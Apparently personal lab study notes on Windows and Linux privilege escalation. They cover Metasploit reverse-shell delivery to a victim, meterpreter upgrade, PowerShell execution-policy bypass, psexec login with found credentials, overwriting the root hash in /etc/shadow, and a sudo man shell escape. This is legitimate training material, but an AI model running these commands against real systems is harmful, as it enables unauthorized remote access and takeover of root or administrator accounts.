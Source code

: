 
## Windows Privilege Escalation 


- PrivscCheck is a script that enumerate common Windows configuration issues that can be leveraged for local privilige escalation. It also gathers info that is usefull for exploitation or post exploitation: 
	- https://github.com/itm4n/PrivescCheck 

----

web_delivery module (`show info`)
- set target to powershell:` set target PSH\ (Binary`) 
- `set payload windows/shell/reverse_tcp `
- `set PSH-EncodedCommand false ` (we do not want it to encrypt with base 64)
- copy the powershell code provided 
  
- paste the code in the CMD session on victim system 
this will give you access to target system through command shell session. 
  
- migrate this session to meterpreter session: 
	- `search shell_to_meterpreter` module 
	- set lhost kali 
	- set lport (make sure its not the same as the existing shell session)
	- set session to shell session 
	- show advanced: 
		-` set WIN_TRANSFER VBS`

**powershell -ep bypass .\script.ps1** 
Hiermee wordt het uitvoeringsbeleid tijdelijk omzeild voor de huidige sessie, zodat het script kan worden uitgevoerd zonder problemen met de uitvoeringsbeleidsinstellingen.**


**Privilege escalation:** 
after migrating to a more stable process such as explorer you run getprivs to find out what the priviliges are (getprivs)

In meterpreter: 
- `cd C:\\ `
- go to the directory where the Privescheck powershell is stored and open a command shell: `shell` 
	- check github page on how to use the script 
- paste the command in the shell prompt 
- check summary results 


##### How to use the credentials found in Privescheck results?  

![[Pasted image 20230924152458.png]]
psexec authenticates on target system via SMB, we are not exploiting the system but only authenticating with legit credentials 

login on target system with psexec.py:
- `psexec.py Administrator@target_ip (`
- command shell session
	- `whoami` 
	- `net user `
	- `whoami /priv `


Method 2 is with meterpreter session 
- search psexec 
- use exploit/windows/smb/psexec 
- set lport that does not conflict with current sessions 
- set smb-password and smb-username with found credentials 

















## Linux Privilege escalation 

Linux priviliges: LinEnum 
Simple bash script that automates common Linux local enumeration check in addition identifying privilege escalation vulnerabilities. 
-> https://github.com/rebootuser/LinEnum 

---

##### Weak permissions 
CMD: 
	``whoami` 
	`cat /etc/passwd`
	`cat /etc/group `
	`groups student

find file that can be usefull in elevating privileges 
 
**`find / -not -type l -perm -o+w`**  

- . `find`: This is the command itself, used to search for files and directories.
- . `/`: This is the starting directory for the search. In this case, it's the root directory, so the command will search the entire file system.
- . `-not`: It means "not."
- . `-type l`: This part of the command specifies the type of file to search for. `-type l` looks for symbolic links (symlinks). Symlinks are files that point to another file or directory.
- . `-perm -o+w`: This part of the command specifies the permissions criteria. `-perm` is used to search for files based on their permissions, and `-o+w` looks for files that are writable by someone other than the owner.


/etc/shadow stores passwords and should only be viewed by the root user. 
cat out the content of the file 
we have access to the password files but we can only see the hashes. 
so this means that we have to replace the password with a hashed password (this way we can have access to the root user)

1. Confirm that you have access to the shadow file: `ls -al /etc/shadow `
   `cat /etc/shadow`
2. generate password you can replace: `openssl passwd -1 -salt abc youhavebeenhacked`
3. copy hashed password and replace in shadow file: `vim` `/etc/shadow `
   remove the * and paste the new password 
4. switch to the root account: `su` 
5. enter password of root user account with the value you set 


##### Sudo Privileges 

`cat /etc/passwd `
`sudo -l `(list of commands you can run as the user)

 
 /usr/bin/man can be exploited if misconfigured with pseudo priviliges: 
 unprivileged can run this binary with sudo priviliges (root priviliges) without root password/  -- bypassing permissions & privileges
 
 man utility can allow users to spawn a bash session from within the utility, how: 

  try to run with sudo privliges:
  -  `sudo man ls `  (it should not ask for password)
  - `sudo man ls` 
  - we can spawn a bash session with: 
  `  !/bin/bash `
because we are running the man binary with pseudo priviliges, we are able to execute whatever, from the man binary. 




